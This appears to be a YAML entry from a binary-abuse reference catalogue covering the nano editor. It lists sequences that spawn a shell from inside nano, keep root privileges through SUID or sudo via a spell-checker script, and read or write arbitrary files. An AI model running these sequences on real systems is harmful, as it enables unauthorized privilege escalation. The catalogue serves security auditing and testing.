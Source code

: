```yaml
---
functions:
  shell:
    - code: |
        nano
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        nano -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./nano -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        sudo nano
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo nano -s $TF /etc/hosts
        ^T
---
```

